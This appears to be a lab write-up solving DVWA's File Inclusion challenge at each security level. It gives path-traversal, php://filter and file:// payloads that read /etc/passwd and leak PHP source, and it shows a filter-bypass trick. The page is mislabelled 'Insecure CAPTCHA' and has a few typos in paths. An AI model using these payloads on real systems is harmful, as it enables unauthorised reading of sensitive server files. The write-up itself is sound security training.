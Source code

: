 ```yaml
---
description: http://localhost/DVWA/vulnerabilities/fi
---
```


# Insecure CAPTCHA --

<details>

<summary>What is a File Inclusion?</summary>

A **file inclusion** attack is a type of security exploit that takes advantage of improper or unchecked input handling in web applications. The goal of such an attack is to include files on a server through the web browser. There are two main types of file inclusion attacks: Local File Inclusion (LFI) and Remote File Inclusion (RFI).

1. **Local File Inclusion (LFI):**
   * In an LFI attack, an attacker tries to include files that are already present on the target system. These files could be configuration files, system files, or any other sensitive information.
   * The attacker manipulates input parameters or user-controlled data in a way that the application includes a file from the local file system.
   * For example, if a web application includes a file based on user input without proper validation, an attacker might input a malicious path to include sensitive files.
2. **Remote File Inclusion (RFI):**
   * RFI is a more severe form of file inclusion attack where the attacker includes files from a remote server controlled by them.
   * The attacker injects a URL pointing to a file on a remote server into a parameter or input field, and the application fetches and includes the contents of that remote file.
   * This can lead to the execution of arbitrary code on the server, potentially allowing the attacker to take control of the system.

File inclusion vulnerabilities can occur due to poor input validation and lack of proper security measures in web applications. To prevent file inclusion attacks, developers should:

* Validate and sanitize user input.
* Avoid dynamically including files based on user input without proper validation.
* Implement proper access controls to restrict file access.
* Use secure coding practices and frameworks that handle user input securely.

Regular security assessments, code reviews, and penetration testing can help identify and mitigate file inclusion vulnerabilities in web applications.

</details>

{% hint style="info" %}
Using BurpSuite and the FoxyProxy extension is recommended.
{% endhint %}

## Low

We've a div containing three distinct hyperlinks, each triggering the display of various files within the web application upon activation. The exhibition of a specific file is accomplished through the utilization of the subsequent GET request.

<div align="left">

<figure><img src="../.gitbook/assets/image (105).png" alt=""><figcaption></figcaption></figure>

</div>

<figure><img src="../.gitbook/assets/image (106).png" alt=""><figcaption><p>file1.pho</p></figcaption></figure>

<figure><img src="../.gitbook/assets/image (107).png" alt=""><figcaption><p>file2.php</p></figcaption></figure>

<figure><img src="../.gitbook/assets/image (108).png" alt=""><figcaption><p>file3.php</p></figcaption></figure>

<div align="left">

<figure><img src="../.gitbook/assets/image (109).png" alt=""><figcaption></figcaption></figure>

</div>

```http
GET /DVWA/vulnerabilities/fi/?page=file1.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://localhost/DVWA/vulnerabilities/fi/?page=include.php
Connection: close
Cookie: security=low; PHPSESSID=s7nq882ng75b21h8b8uc4rmaod
Upgrade-Insecure-Requests: 1
```

This is php code of this level:

<figure><img src="../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

The concept involves manipulating the filename within the page parameter to any desired file on the target, enabling us to retrieve its contents. By employing the following GET request, we can read the contents of the etc password file.

#### 1st Payload

```url
http://localhost/DVWA/vulnerabilities/fi/?page=../../../../../../etc/passwd
```

Replacing this path: `../../../../../../etc/passwd` at file1.php, we obtain result of command in html output:

<figure><img src="../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

If the goal is to disclose certain PHP code, one approach is to utilize PHP filters to encode the PHP code into base64.

#### 2nd Payload

```url
http://localhost/DVWA/vulnerabilities/fi/?page=php://filter/convert.base64-encode/resource=../../../../../etc/passwd
```

but the request is to see `fi.php` file, then we use this URL:

```
http://evil/vulnerabilities/fi/?page=php://filter/convert.base64-encode/resource=../../../../../var/www/html/hackable/flags/fi.php
```

which gives us the following base64 payload

```bash
PD9waHAKCmlmKCAhZGVmaW5lZCggJ0RWV0FfV0VCX1BBR0VfVE9fUk9PVCcgKSApIHsKCWV4aXQgKCJOaWNlIHRyeSA7LSkuIFVzZSB0aGUgZmlsZSBpbmNsdWRlIG5leHQgdGltZSEiKTsKfQoKPz4KCjEuKSBCb25kLiBKYW1lcyBCb25kCgo8P3BocAoKZWNobyAiMi4pIE15IG5hbWUgaXMgU2hlcmxvY2sgSG9sbWVzLiBJdCBpcyBteSBidXNpbmVzcyB0byBrbm93IHdoYXQgb3RoZXIgcGVvcGxlIGRvbid0IGtub3cuXG5cbjxiciAvPjxiciAvPlxuIjsKCiRsaW5lMyA9ICIzLikgUm9tZW8sIFJvbWVvISBXaGVyZWZvcmUgYXJ0IHRob3UgUm9tZW8
```

Decoding it, we obtain this php code:

```php
<?php

if( !defined( 'DVWA_WEB_PAGE_TO_ROOT' ) ) {
	exit ("Nice try ;-). Use the file include next time!");
}

?>

1.) Bond. James Bond

<?php

echo "2.) My name is Sherlock Holmes. It is my business to know what other people don't know.\n\n<br /><br />\n";

$line3 = "3.) Romeo, Romeo! Wherefore art thou Romeo?";
$line3 = "--LINE HIDDEN ;)--";
echo $line3 . "\n\n<br /><br />\n";

$line4 = "NC4pI" . "FRoZSBwb29s" . "IG9uIH" . "RoZSByb29mIG1" . "1c3QgaGF" . "2ZSBh" . "IGxlY" . "Wsu";
echo base64_decode( $line4 );

?>

<!-- 5.) The world isn't run by weapons anymore, or energy, or money. It's run by little ones and zeroes, little bits of data. It's all just electrons. -->
```

{% hint style="warning" %}
The input is not sanitized, so I can execute any (potentially malicious) command.
{% endhint %}

## Medium

<figure><img src="../.gitbook/assets/image (110).png" alt=""><figcaption></figcaption></figure>

In this case, code includes a little validation checks:

`$file = str_replace( array( "http://", "https://" ), "", $file );`\
`$file = str_replace( array( "../", "..\\" ), "", $file );`

it tries to remove all sorts of http and https protocol usage, trying to remove the possibility for a Remote File Inclusion (RFI), and it also replaces `../` with the empty string: `""`.

The handling of the '../' character sequence is insufficient, as the validation is not performed recursively.

#### 1st Payload

```bash
....//....//....//....//....//etc/passwd
```

After input validation (not recursive), changing ../ to "", we obtain this result:

```
../../../../../etc/passwd
```

Then full URL will be this:

```
http://localhost/DVWA/vulnerabilities/fi/?page=....//....//....//....//....//etc/passwd/passwd
```

\
How the low level, adding the php filters we can also leak the server’s php code:

```
http://localhost/DVWA/vulnerabilities/fi/?page=php://filter/convert.base64-encode/resource=....//....//....//....//....//var/www/html/hackable/flags/fi.php
```

and we get the following base64

```
PD9waHAKCmlmKCAhZGVmaW5lZCggJ0RWV0FfV0VCX1BBR0VfVE9fUk9PVCcgKSApIHsKCWV4aXQgKCJOaWNlIHRyeSA7LSkuIFVzZSB0aGUgZmlsZSBpbmNsdWRlIG5leHQgdGltZSEiKTsKfQoKPz4KCjEuKSBCb25kLiBKYW1lcyBCb25kCgo8P3BocAoKZWNobyAiMi4pIE15IG5hbWUgaXMgU2hlcmxvY2sgSG9sbWVzLiBJdCBpcyBteSBidXNpbmVzcyB0byBrbm93IHdoYXQgb3RoZXIgcGVvcGxlIGRvbid0IGtub3cuXG5cbjxiciAvPjxiciAvPlxuIjsKCiRsaW5lMyA9ICIzLikgUm9tZW8sIFJvbWVvISBXaGVyZWZvcmUgYXJ0IHRob3UgUm9tZW8
```

To get an RFI instead we can use `php streams`.

{% hint style="warning" %}
The input is not sanitized sufficiently , so I can execute any (potentially malicious) command.
{% endhint %}

## High

<div align="left">

<figure><img src="../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

</div>

In this code the're two validation checks:

1. The `fnmatch()` function in PHP, which matches strings against patterns using shell-style wildcards. In our scenario, it matches any file that begins with 'file.'
2. The condition `$file != 'include.php'` introduces a specific case where the 'if' statement fails only when the file doesn't start with 'file' and is precisely 'include.php'.

#### 1st Payload

Regarding LFI exploitation, the code solely verifies whether the parameter begins with 'file' and does not examine its ending. Consequently, we can employ the following GET request to expose the 'passwd' file.

```
http://localhost/DVWA/vulnerabilities/fi/?page=file/../../../../../../../etc/passwd
```

however we cannot seem to able to use the php filters to leak php code by using the base64 converter.

#### 2nd Payload

An alternative approach involves leveraging the file protocol to access and read any file in the system based on its given path.

```html
http://localhost/DVWA/vulnerabilities/fi/?page=file:///etc/passwd
http://localhost/DVWA/vulnerabilities/fi/?page=file:///var/www/html/hackable/flags/fi.php
```

{% hint style="warning" %}
The input is not sanitized sufficiently , so I can execute any (potentially malicious) command.
{% endhint %}

## Impossible

<figure><img src="../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
Site isn't vulnerable to File Inclusion attack because the request includes only possible lecit value/page.
{% endhint %}

## References

For the making of this solution the following resource were used:

* [https://github.com/LeonardoE95/DVWA/tree/main/src/file\_inclusion](https://github.com/LeonardoE95/DVWA/tree/main/src/file\_inclusion)
